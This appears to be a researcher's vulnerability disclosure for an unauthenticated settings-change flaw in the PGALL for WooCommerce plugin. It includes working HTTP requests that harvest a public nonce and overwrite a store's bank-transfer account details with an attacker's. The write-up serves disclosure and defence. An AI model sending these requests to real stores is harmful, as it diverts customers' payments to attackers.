


| | |
|---|---|
| CVE | [CVE-2026-95597](https://www.cve.org/CVERecord?id=CVE-2026-95597) |
| Plugin | PGALL for WooCommerce, 워드프레스 결제 심플페이 (`pgall-for-woocommerce`) |
| Affected | <= 5.5.17 (tested on 5.5.16) |
| Fixed in | 5.5.18 |
| Severity | CVSS 6.5 Medium |
| Attacker needs | no account (only the public shop and checkout pages) |
| Advisory | [Patchstack](https://patchstack.com/database/wordpress/plugin/pgall-for-woocommerce/vulnerability/wordpress-plugin-5-5-17-settings-change-vulnerability) |
| PoC | [Mor-Golan/CVE-2026-95597-pgall-for-woocommerce](https://github.com/Mor-Golan/CVE-2026-95597-pgall-for-woocommerce) |

## Summary

PGALL for WooCommerce (워드프레스 결제 심플페이, slug `pgall-for-woocommerce`) is a Korean payments plugin for WooCommerce. I found that its public AJAX handler lets a visitor with no account call settings methods on WooCommerce payment gateways. Through WooCommerce's own Direct bank transfer gateway, one anonymous request replaced the merchant's bank account details with an attacker's, and those are the details WooCommerce shows paying customers when it tells them where to send their money. The same handler also lets the attacker change the gateway's title, description and enabled state.

## Root cause

The plugin registers its AJAX action on the `nopriv` hook, so it runs for logged out visitors:

```text
wp_ajax_nopriv_pgall-for-woocommerce-pafw_ajax_action
  -> PAFW_Ajax::pafw_ajax_action()        includes/class-pafw-ajax.php:208
```

The handler has exactly one guard, a nonce check at line 211, and no `current_user_can()` check:

```php
check_ajax_referer( 'pgall-for-woocommerce', false, false )
```

After the nonce check, it resolves a gateway from the request parameter `payment_method` and calls a method on it whose name comes from the request parameter `payment_action`. The only test applied to that method name is `is_callable()`. In simplified form:

```text
PAFW_Ajax::pafw_ajax_action()
  check_ajax_referer( 'pgall-for-woocommerce', ... )     the only guard
  $payment_gateway = pafw_get_payment_gateway( payment_method )
                                                         'bacs' returns WooCommerce's WC_Gateway_BACS
  if is_callable( payment_action ):
      $payment_gateway->$payment_action()                no allow list, no capability check
  wp_send_json_error()                                   reached on every path
```

Because both values come from the request, I could pick `WC_Gateway_BACS` and call the methods WooCommerce uses on its admin settings screen:

* `process_admin_options()` reads its field values from `$_POST` (keys prefixed `woocommerce_bacs_`) and saves them with `update_option( 'woocommerce_bacs_settings', ... )`. That covers title, description, instructions and the enabled flag.
* `save_account_details()` reads the `bacs_*[]` arrays from the request and saves them with `update_option( 'woocommerce_bacs_accounts', ... )`. That is the account name, number, bank, sort code, IBAN and BIC.

The option names are fixed by the gateway, so this is not an arbitrary option update. The options it does reach decide where customers send their payments.

The nonce does not stop any of this. The plugin creates it for the anonymous visitor (user 0) and prints it into the `_pafw` object on the WooCommerce checkout page, so anyone who puts a product in the cart and opens checkout can read it:

```js
var _pafw = {"ajax_url":"http://localhost:8080/wp-admin/admin-ajax.php", ... ,"slug":"pgall-for-woocommerce", ... ,"_wpnonce":"b4b42d9ede", ... };
```

A nonce protects against cross site request forgery. It is not authorization, and here it is handed to every visitor.

## Proof of concept

I tested on WordPress 7.0.2, PHP 8.2.32, WooCommerce 11.1.0 and plugin version 5.5.16. As the site owner I published one product, enabled Direct bank transfer with a merchant account (Legit Merchant Ltd, IBAN `GB00REAL0000000000`), and placed one test order paid by bank transfer so an order received page existed. No plugin setting was changed.

Every step below runs as an anonymous visitor with no login cookie.

1. Add any product to the cart with `GET /?add-to-cart=<product_id>`. This creates an anonymous WooCommerce session.
2. Open the checkout page with the same cookies and read `_wpnonce` from the `_pafw` object.
3. Send one POST to `admin-ajax.php` that names the BACS gateway and its `save_account_details` method:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost:8080
Cookie: wp_woocommerce_session_<hash>=<anonymous session>; woocommerce_items_in_cart=1; woocommerce_cart_hash=<hash>
Content-Type: application/x-www-form-urlencoded

action=pgall-for-woocommerce-pafw_ajax_action&_wpnonce=b4b42d9ede&payment_method=bacs&payment_action=save_account_details&bacs_account_name[]=ATTACKER+wpbbshot16849&bacs_account_number[]=66660000&bacs_bank_name[]=Mule+Bank+%28attacker%29&bacs_sort_code[]=66-66-66&bacs_iban[]=GB66EVILSHOT16849MULE&bacs_bic[]=EVILGB2L
```

The response looks like a failure, and it is the same whether the write landed or not, because the handler ends in `wp_send_json_error()` on every path:

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"success":false,"data":"잘못된 요청입니다."}
```

The data string is Korean for "Invalid request". The store itself is what shows the result.

The settings write is the same request with a different method and the gateway's form fields:

```http
action=pgall-for-woocommerce-pafw_ajax_action&_wpnonce=b4b42d9ede&payment_method=bacs&payment_action=process_admin_options&woocommerce_bacs_title=wpbbunauth84504&woocommerce_bacs_enabled=yes&woocommerce_bacs_description=desc_wpbbunauth84504
```

The full script, which finds a product, harvests the nonce and sends the account overwrite, is `poc.sh` in the [PoC repo](https://github.com/Mor-Golan/CVE-2026-95597-pgall-for-woocommerce).

## Impact

After the single anonymous request I read `woocommerce_bacs_accounts` back from the database:

```text
before: [{"account_name":"Legit Merchant Ltd","account_number":"11112222","bank_name":"Real Bank","sort_code":"00-00-00","iban":"GB00REAL0000000000","bic":"REALGB2L"}]
after:  [{"account_name":"ATTACKER wpbbshot16849","account_number":"66660000","bank_name":"Mule Bank (attacker)","sort_code":"66-66-66","iban":"GB66EVILSHOT16849MULE","bic":"EVILGB2L"}]
```

WooCommerce reads these details live when it renders the "Our bank details" block, so the change also reaches orders placed before the attack. This is the order received page of my test order, loaded in a browser with no cookies, before and after the request:





A customer paying by bank transfer is told to send the money to the attacker's account.

The settings write changed `woocommerce_bacs_settings` from `{"enabled":"yes","title":"Direct bank transfer"}` to `{"enabled":"yes","title":"wpbbunauth84504","description":"desc_wpbbunauth84504","instructions":"","account_details":""}`.

I also tested a store where Direct bank transfer was at WooCommerce's shipped default: disabled, with neither option ever written. Two anonymous requests created both options, with `enabled` set to `yes`, a title I chose and an attacker bank account. The gateway went from unavailable to available, and the anonymous checkout page went from offering no payment method at all to offering the attacker's. The checkout page still printed the nonce with guest checkout switched off. So the attack does not depend on the owner having set up bank transfer.

Controls: an administrator sending the same request made the same write, which shows the request shape reaches the handler. The same anonymous request with a corrupted nonce, and with no nonce, got `HTTP 403` with body `-1` and left the options unchanged.

My lab only exercised WooCommerce's Direct bank transfer gateway. I did not test the plugin's own Korean payment gateways.

## Fix

Update to version 5.5.18 or later.

For anyone reviewing similar code: the handler needs a capability check with `current_user_can()` before it calls any settings method, and an allow list of the gateway methods the checkout front end is actually meant to call. A nonce printed on a public page cannot do either job.

## Timeline

* 2026-09-06: I found the issue and confirmed it on version 5.5.16 in my lab.
* 2026-09-08: I confirmed it against a store with Direct bank transfer at WooCommerce's shipped default.
* 2026-10-09: CVE published.

## References

* [CVE-2026-95597 record](https://www.cve.org/CVERecord?id=CVE-2026-95597)
* [Patchstack advisory](https://patchstack.com/database/wordpress/plugin/pgall-for-woocommerce/vulnerability/wordpress-plugin-5-5-17-settings-change-vulnerability)
* [PoC repository](https://github.com/Mor-Golan/CVE-2026-95597-pgall-for-woocommerce)
* [Plugin page](https://wordpress.org/plugins/pgall-for-woocommerce/)
